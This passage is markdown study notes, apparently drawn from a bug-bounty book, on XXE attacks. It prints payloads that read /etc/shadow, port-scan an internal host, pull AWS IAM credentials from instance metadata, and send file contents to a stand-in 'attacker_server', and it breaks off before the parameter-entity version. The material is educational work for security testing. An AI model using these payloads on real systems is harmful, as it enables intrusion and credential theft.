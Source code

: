 	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "file:///etc/shadow">
	]>
	<example>&file;</example>
### <font color="red">Launching an SSRF</font> :

#### Besides retrieving system files, you can use the XXE vulnerability to launch SSRF attacks against the local network. For example, you can launch a port scan by switching out the external entity’s URL with different ports on the target machine. This is similar to the port-scanning technique mentioned in Chapter 13, where you can determine the status of a port by analyzing differences in the server’s responses:
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "http://10.0.0.1:80">
	]>
	<example>&file;</example>
#### You can also use an XXE to launch an SSRF to pull instance metadata, as we talked about in Chapter 13. This payload will make the parser return AWS metadata:
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
	]>
	<example>&file;</example>

#### <font color="red">Using Blind XXEs</font>: 

#### Sometimes the application does not return the results of XML parsing to the user. In this case, you can still exfiltrate data to a server that you control by forcing the XML parser to make an external request with the desired data in the request URL—the blind XXE attacks mentioned earlier. Then you can monitor your server logs to retrieve the exfiltrated data. At this point, you might think the payload of a blind XXE looks like this:
	
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY file SYSTEM "file:///etc/shadow">
	<!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">
	]>
	<example>&exfiltrate;</example>

#### this attack probably would not work , because most parsers do not allow external entities to be included in other external entity , and parser would stop processing the DTD once they encounter this line : `<!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">` . So exfiltering data by using a blind xxe is a bit more complicated than classic xxe.
#### Fortunately, XML DTDs have a feature called parameter entities that we can use instead.` Parameter entities are XML entities that can be referenced only elsewhere within the DTD.hey are declared and referenced with a percent (%) character.`
#### The blind XXE Payload mentioned earlier could be re written like this :
